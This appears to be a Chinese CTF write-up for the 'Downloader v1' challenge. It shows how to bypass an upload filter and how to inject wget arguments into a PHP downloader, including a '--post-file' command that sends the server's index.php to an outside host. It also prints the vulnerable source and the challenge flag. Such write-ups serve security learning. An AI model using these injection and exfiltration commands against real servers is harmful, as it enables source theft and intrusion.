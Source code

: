 # Downloader v1

這題給你輸入一個網址，他會用wget去抓這個網址的檔案下來放進`/uploads/<random>/`

它會對一些常見特殊字元做轉義，所以沒辦法直接Command Injection

接著它會再下一行指令: `bash -c 'rm $target/*.{php,pht,phtml,php4,php5,php6,php7}'`，避免你傳php上去

不過其實還是有很多方法可以上傳php的

例如`rm *.php`其實不會刪除到`.xxx.php`這種類型的檔名

然後要繞掉他的副檔名輸入檢查可以簡單在最後加個空格就行: `http://kaibro.tw/.a.php `

這樣就會成功傳一個php上去，只是他該目錄設定成不解析php，所以沒辦法跑php

沒關係，換個招

這邊其實可以用argument injection之類的方法

例如: `wget http://kaibro.tw -O ../abc`

就能控制寫檔的位置和檔名

甚至還能做到上傳檔案:

`wget http://kaibro.tw --post-file=/var/www/html/index.php kaibro.tw:8787`

然後就能讀到source code惹:

```php
<?php

ini_set('display_errors', 0);
$out   = false;
$url   = $_POST['url'] ?? false;
$error = false;

if ($url && !preg_match('#^https?://([a-z0-9-]+\.)*[a-z0-9-]+\.[a-z0-9-]+/.+#i', $url)) {
    $error = 'Invalid URL';
} else if ($url && preg_match('/\.(htaccess|ph(p\d?|t|tml))$/', $url)) { // .htaccess .php .php3 -  .php7 .phtml .pht
    $error = 'Sneaky you!';
}

if (!$error && $url) {
    $target = 'uploads/' .uniqid() . bin2hex(openssl_random_pseudo_bytes(8));
    mkdir($target);
    chdir($target);
    touch('.htaccess');

    $cmd = escapeshellcmd('wget ' . $url) . ' 2>&1';
    $out = "\$ cd $target" . PHP_EOL;
    $out .= '$ ' . $cmd . PHP_EOL;
    $out .= shell_exec($cmd);

    $cmd = "bash -c 'rm $target/*.{php,pht,phtml,php4,php5,php6,php7}'";
    $out .= '$ ' . $cmd . PHP_EOL;
    $out .= shell_exec($cmd) . PHP_EOL;
}

?><!DOCTYPE html>
<html>
<head>
    <title>Downloader v1</title>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css" integrity="sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm" crossorigin="anonymous">
</head>
<body>

<div class="container mt-5">
    <div class="row">
        <div class="col-8 offset-2">
            <h3 class="text-center">File downloader v1</h3>
            <div class="card mt-5">
                <div class="card-header">Specify an URL to download</div>
                <form class="card-body" method="POST">
                    <?php if ($error): ?>
                    <div class="alert alert-danger" role="alert"><?php echo htmlentities($error); ?></div>
                    <?php endif;?>
                    <div class="form-group">
                        <label>URL to download:</label>
                        <input type="text" name="url" placeholder="http://example.com/image.jpg" value="<?php echo htmlentities($url, ENT_QUOTES); ?>" class="form-control" >
                    </div>
                    <button type="submit" class="btn btn-primary float-right">Submit</button>
                </form>
                <?php if ($out): ?>
                <div class="card-header card-footer">Output:</div>
                <div class="card-body">
                    <pre><code><?php echo htmlentities($out); ?></code></pre>
                </div>
                <?php endif;?>
            </div>
        </div>
    </div>
</div>

<!-- <a href="flag.php">###</a> -->
```

繼續讀`flag.php`:

```php
GET ME!
<?php /* DCTF{f8ebc33b836f0ac262fef4c18d3b18ed405da41bb4389c0d0fa1a5a997da1af0} */ ?>
```
